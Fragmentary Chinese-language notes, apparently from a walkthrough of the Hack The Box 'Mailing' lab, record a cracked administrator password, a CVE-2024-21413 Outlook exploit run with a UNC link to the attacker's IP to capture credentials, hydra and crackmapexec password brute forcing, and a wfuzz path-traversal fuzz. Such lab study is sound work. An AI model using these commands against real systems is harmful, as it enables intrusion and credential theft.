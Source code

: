 ```
```

出来一个AdministratorPassword，可能是md5：841bb5acfa6779ae432fd7a4e6600ba7

来到[这个解密网站](https://crackstation.net/)，解出来密码是：homenetworkingadministrator


使用[这个exp](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability)



python CVE-2024-21413.py --server mailing.htb --port 587 --username Administrator@mailing.htb --password homenetworkingadministrator --sender Administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.16.25\test\meeting" --subject "hi"


python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.16.25\PoC' --subject "Hello world"
 
 



hydra -l maya -P /usr/share/wordlists/rockyou.txt -f -v  smtp://10.10.11.14

crackmapexec winrm 10.10.11.14  -u maya -p /usr/share/wordlists/rockyou.txt


g.smith

Thunderbird 115.8.1

CVE-2024-1936
dig txt mailing.htb | grep spf


wfuzz -c -w ./lfi2.txt --hw 0 http://mailing.htb/download.php?file=../../../../../../../FUZZ